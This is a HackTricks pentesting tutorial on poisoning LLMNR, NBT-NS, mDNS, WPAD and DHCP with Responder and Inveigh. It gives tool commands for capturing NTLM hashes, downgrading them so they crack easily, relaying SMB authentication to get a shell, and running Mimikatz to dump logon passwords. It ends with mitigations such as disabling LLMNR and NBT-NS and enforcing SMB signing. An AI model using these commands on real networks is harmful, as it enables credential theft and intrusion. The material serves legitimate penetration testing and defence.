





# Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Network protocols

## LLMNR, NBT-NS, and mDNS

Microsoft systems use Link-Local Multicast Name Resolution (LLMNR) and the NetBIOS Name Service (NBT-NS) for local host resolution when DNS lookups fail. Apple Bonjour and Linux zero-configuration implementations use Multicast DNS (mDNS) to discover systems within a network. These protocols are unauthenticated and broadcast messages over UDP; thus, attackers can exploit them to direct users to malicious services.

You can impersonate services that are searched by hosts using Responder to send fake responses.\
Read here more information about [how to Impersonate services with Responder](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

## WPAD

Many browsers use Web Proxy Auto-Discovery (WPAD) to load proxy settings from the network. A WPAD server provides client proxy settings via a particular URL (e.g., _http://wpad.example.org/wpad.dat_) upon being identified through any of the following:

* DHCP, using a code 252 entry[34](https://learning.oreilly.com/library/view/Network+Security+Assessment,+3rd+Edition/9781491911044/ch05.html#ch05fn41)
* DNS, searching for the _wpad_ hostname in the local domain
* Microsoft LLMNR and NBT-NS (in the event of DNS lookup failure)

Responder automates the WPAD attack—running a proxy and directing clients to a malicious WPAD server via DHCP, DNS, LLMNR, and NBT-NS.

# Responder

> Responder an LLMNR, NBT-NS and MDNS poisoner. It will answer to _specific_ NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: [http://support.microsoft.com/kb/163409](http://support.microsoft.com/kb/163409)). By default, the tool will only answer to File Server Service request, which is for SMB.
>
> The concept behind this is to target our answers, and be stealthier on the network. This also helps to ensure that we don't break legitimate NBT-NS behavior. You can set the -r option via command line if you want to answer to the Workstation Service request name suffix.

[Responder](https://github.com/lgandx/Responder) is installed in kali by default and the config file is located in _/etc/responder/Responder.conf_

You can find here Responder for **windows** [here](https://github.com/lgandx/Responder-Windows)

> Responder works in ipv4 & **ipv6**

Options are the following :

```
--version             show program's version number and exit
-h, --help            show this help message and exit
-A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                    BROWSER, LLMNR requests without responding.
-I eth0, --interface=eth0
                    Network interface to use, you can use 'ALL' as a
                    wildcard for all interfaces
-i 10.0.0.21, --ip=10.0.0.21
                    Local IP to use (only for OSX)
-6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                    Poison all requests with another IPv6 address than
                    Responder's one.
-e 10.0.0.22, --externalip=10.0.0.22
                    Poison all requests with another IP address than
                    Responder's one.
-b, --basic           Return a Basic HTTP authentication. Default: NTLM
-d, --DHCP            Enable answers for DHCP broadcast requests. This
                    option will inject a WPAD server in the DHCP response.
                    Default: False
-D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                    response, otherwise a WPAD server will be added.
                    Default: False
-w, --wpad            Start the WPAD rogue proxy server. Default value is
                    False
-u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                    Upstream HTTP proxy used by the rogue WPAD Proxy for
                    outgoing requests (format: host:port)
-F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                    retrieval. This may cause a login prompt. Default:
                    False
-P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                    authentication for the proxy. WPAD doesn't need to be
                    ON. This option is highly effective when combined with
                    -r. Default: False
--lm                  Force LM hashing downgrade for Windows XP/2003 and
                    earlier. Default: False
--disable-ess         Force ESS downgrade. Default: False
-v, --verbose         Increase verbosity.
```

To run default Responder behaviour you only have to execute:

```bash
responder -I <Iface> -Pv
```

An interesting technique is to use responder to downgrade the NTLM authentication when possible. This will allow to **capture NTLMv1 challenges and responses** instead of NTLMv2 that can be **easily cracked** [**following this guide**](../../windows/ntlm/#ntlmv1-attack)**.**

```bash
#Remember that in order to crack NTLMv1 you need to set Responder challenge to "1122334455667788"
responder -I <Iface> --lm --disable-ess #Downgrade NTLM authntication if possible and force ESS downgrade
```

By **default**, the **WPAD impersonation won't be executed**, but you can execute it doing:

```bash
responder -I <Iface> --wpad
```

You can also **resolve NetBIOS** requests with **your IP**. And create an **authentication proxy**:

```bash
responder.py -I <interface> -rPv
```

You won't be able to intercept NTLM hashes (normally), but you can easily grab some **NTLM challenges and responses** that you can **crack** using for example _**john**_ option `--format=netntlmv2`.

The **logs and the challenges** of default _**Responder**_ installation in kali can be found in `/usr/share/responder/logs`

# DHCP Poisoning

Windows uses several custom DHCP options such as NetBIOS, WINS, WPAD settings. When a workstation sends a DHCP request to get its networking settings, these additional settings can be included in the DHCP answer to facilitate straightforward connectivity and name resolution.

Spoofing DHCP responses with no disruption can be challenging since you're interfering with a workstation network configuration. Usually, you need to have very good knowledge of the target subnet, where is the DNS server, where is the switch, routing table, domain, netmask, DHCP server, etc. **Any mistake with these settings will result in disruption on the network.**

However, spoofing DHCP answers has unique benefits. **It's definitely stealthier than ARP poisoning**; One unicast response is sufficient to permanently poison a victim's routing information, it's also common to see multiple DHCP servers operating on a network. Unicast DHCP answers are more complex to detect, a few switch provides security settings to prevent DHCP snooping, however those settings are not straightforward and are often misconfigured when enabled.

> This attack is highly effective and gives you assured NTLMv1/2 hashes.

```bash
./Responder.py -I eth0 -rPdv
```

# Capturing credentials

Responder is going to **impersonate all the service using the mentioned protocols**. Once some user try to access a service being resolved using those protocols, **he will try to authenticate against Responde**r and Responder will be able to **capture** the "credentials" (most probably a **NTLMv2 Challenge/Response**):

It is possible to try to downgrade to NetNTLMv1 or to try to disable ESS.

 (1) (1).jpg>)

# Inveigh

> Inveigh is a PowerShell ADIDNS/LLMNR/NBNS/mDNS/DNS spoofer and man-in-the-middle tool designed to assist penetration testers/red teamers that find themselves limited to a Windows system.

[**Inveigh** ](https://github.com/Kevin-Robertson/Inveigh)is a PowerShell script that has the same main features as Responder.


# Relay Attack

**Most of the information for this section was taken from** [**https://intrinium.com/smb-relay-attack-tutorial/**](https://intrinium.com/smb-relay-attack-tutorial/)

This attack uses the Responder toolkit to **capture SMB authentication sessions** on an internal network, and **relays** them to a **target machine**. If the authentication **session is successful**, it will automatically drop you into a **system** **shell**. Please, note that the relayed authentication must be from a **user which has Local Admin access to the relayed** host and **SMB signing must be disabled**.

The 3 main **tools** to perform this attack are: **smb\_relay** (metasploit), **MultyRelay** (responder), and **smbrealyx** (impacket).

Independently of the tool, first, you need to **turn Off SMB and HTTP servers** in **/usr/share/responder/Responder.conf** and then execute responder on the desired **interface**: `responder -I eth0 -rv`

You can perform this attack using **metasploit module**: `exploit/windows/smb/smb_relay`

The option `SRVHOST` is used to point the server **were you want to get access**. Then, when **any host try to authenticate against you**, metasploit will **try to authenticate against the other** server.

You **can't authenticate against the same host that is trying to authenticate against you** (MS08-068). **Metasploit** will **always** send a "_**Denied**_" **response** to the **client** that is trying to connect to you.

If you want to use **smbrelayx** now you should run:

```
smbrelayx.py -h <IP target> -c "ipconfig"
```

If you want to use **MultiRelay**, go to _**/usr/share/responder/tools**_ and execute MultiRelay (`-t <IP target> -u <User>`):

```bash
python MultiRelay.py -t <IP target> -u ALL #If "ALL" then all users are relayed
```

.png>)

## Post-Exploitation (MultiRelay)

**At this point you can shut off Responder; we don’t need it anymore.**\
**With the shell access we have obtained, there are many actions that we can perform directly from here:**

**Mimikatz** commands can also be performed directly **from the shell**. Unfortunately, the target used for this tutorial’s antivirus ate my mimikatz, but the following commands can be executed to run mimikatz, as well as the entire pallette of modules.: **`Mimi sekurlsa::logonpasswords`**

# InveighZero

InveighZero is a C# LLMNR/NBNS/mDNS/DNS/DHCPv6 spoofer and man-in-the-middle tool designed to assist penetration testers/red teamers that find themselves limited to a Windows system. This version shares many features with the PowerShell version of Inveigh.\
More information in the [github of the project](https://github.com/Kevin-Robertson/InveighZero).

# Force Privileged Accounts to login via NTLM

In Windows you **may be able to force some privileged accounts to authenticate to arbitrary machines**. Read the following page to learn how:


[printers-spooler-service-abuse.md](../../windows/active-directory-methodology/printers-spooler-service-abuse.md)


# Solution

## Disabling LLMNR

To disable LLMNR in your domain for DNS clients, open gpedit.msc.\
Navigate to Computer Configuration->Administrative Templates->Network->DNS client.\
Locate the option “Turn off multicast name resolution” and click “policy setting”:



Once the new window opens, enable this option, press Apply and click OK:



## **Disabling NBT-NS**

One option for disabling NBT-NS is to use DHCP scope options.

If using Microsoft's DHCP server, select the scope that you want to disable NBT-NS for. Right click “Scope Options” and click “Configure Options”. In the example below, the DHCP scope in which I want to disable NBT-NS for is 192.168.1.100.



In the Scope Options window, navigate to the advanced tab, change the drop down window to “Microsoft Windows 2000 Options”:



Select the option “001 Microsoft Disable Netbios Option” from the list and change its value to “0x2”, click Apply and then OK:



## WPAD

To mitigate against the WPAD attack, you can add an entry for "wpad" in your DNS zone. Note that the DNS entry does not need to point to a valid WPAD server. As long as the queries are resolved, the attack will be prevented.

## Multi-relay

1\. **Forcing SMB Signing on all local windows machines**. This setting will digitally sign each and every SMB session which forces both the client and server to verify the source of the packets before continuing. This setting is only enabled by default on Domain Controllers. The following articles from Microsoft detail these settings (which can be enabled through group policy), and how to implement them.

[https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/](https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/)

[https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/microsoft-network-client-digitally-sign-communications-always](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/microsoft-network-client-digitally-sign-communications-always)

2\. **Reviewing and ensuring that the users on the local network can only remotely login to machines in which it is necessary**. For example: Sally can only log in to Sally’s workstation. If an attacker were to intercept Sally’s SMB Auth session, they could not relay the session to any workstations, rendering this method useless.

3\. **Restrict NTLM Authentication on the local network as much as possible**. This attack cannot take advantage of Kerberos authentication, so by limiting the amount of NTLM that’s occurring, this attack can be greatly hindered. There is information from Microsoft on making this happen, but be warned.. If Kerberos authentication fails for whatever reason, it generally falls back onto NTLM. If you disable it entirely, your network might grind to a halt.

4\. **Prevent unauthorised users on your network**. An insider threat will likely not be utilising an SMB Relay attack, as they already have network credentials. By beefing up your physical security policies, preventing rogue devices on the network with ACLs and MAC Filtering, and ensuring proper network segmentation, you can greatly limit the threat of this attack being performed.

# References

**Images from:**\
[https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)\
[https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)\
[https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)\
[https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
